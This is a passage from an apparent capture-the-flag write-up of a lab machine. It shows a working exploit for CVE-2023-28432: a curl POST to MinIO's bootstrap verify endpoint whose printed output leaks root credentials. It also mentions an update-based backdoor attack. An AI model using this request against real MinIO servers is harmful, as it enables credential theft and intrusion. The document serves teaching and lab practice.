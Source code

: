 >     mc admin update [ALIAS] [MIRROR_URL] --yes
>
> </div>
>
> </div>
>
> **4.** "Evil" MinIO is installed, now containing a global backdoor
> that allows the attacker to execute commands on the host.

Step 1 is CVE-2023-28432.

#### CVE-2023-28432

There's a [Python POC
exploit](https://github.com/acheiii/CVE-2023-28432) (published over a
year before Skyfall's release), but I don't need to run it. All it does
is make a POST request to `/minio/bootstrap/v1/verify` on the instance:



    oxdf@hacky$ curl -X POST http://prd23-s3-backend.skyfall.htb/minio/bootstrap/v1/verify
    {"MinioEndpoints":[{"Legacy":false,"SetCount":1,"DrivesPerSet":4,"Endpoints":[{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node1:9000","Path":"/data1","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":true},{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node2:9000","Path":"/data1","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":false},{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node1:9000","Path":"/data2","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":true},{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node2:9000","Path":"/data2","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":false}],"CmdLine":"http://minio-node{1...2}/data{1...2}","Platform":"OS: linux | Arch: amd64"}],"MinioEnv":{"MINIO_ACCESS_KEY_FILE":"access_key","MINIO_BROWSER":"off","MINIO_CONFIG_ENV_FILE":"config.env","MINIO_KMS_SECRET_KEY_FILE":"kms_master_key","MINIO_PROMETHEUS_AUTH_TYPE":"public","MINIO_ROOT_PASSWORD":"GkpjkmiVmpFuL2d3oRx0","MINIO_ROOT_PASSWORD_FILE":"secret_key","MINIO_ROOT_USER":"5GrE1B2YGGyZzNHZaIww","MINIO_ROOT_USER_FILE":"access_key","MINIO_SECRET_KEY_FILE":"secret_key","MINIO_UPDATE":"off","MINIO_UPDATE_MINISIGN_PUBKEY":"RWTx5Zr1tiHQLwG9keckT0c45M3AGeHD6IvimQHpyRywVWGbP1aVSGav"}}
    oxdf@hacky$ curl -X POST http://prd23-s3-backend.skyfall.htb/minio/bootstrap/v1/verify -s | jq .
    {
      "MinioEndpoints": [
        {
          "Legacy": false,
          "SetCount": 1,
          "DrivesPerSet": 4,
          "Endpoints": [
            {
              "Scheme": "http",
              "Opaque": "",
              "User": null,
              "Host": "minio-node1:9000",
              "Path": "/data1",
              "RawPath": "",
              "OmitHost": false,
              "ForceQuery": false,
              "RawQuery": "",
              "Fragment": "",
              "RawFragment": "",
              "IsLocal": false
            },
            {
              "Scheme": "http",
              "Opaque": "",
              "User": null,
              "Host": "minio-node2:9000",
              "Path": "/data1",
              "RawPath": "",
              "OmitHost": false,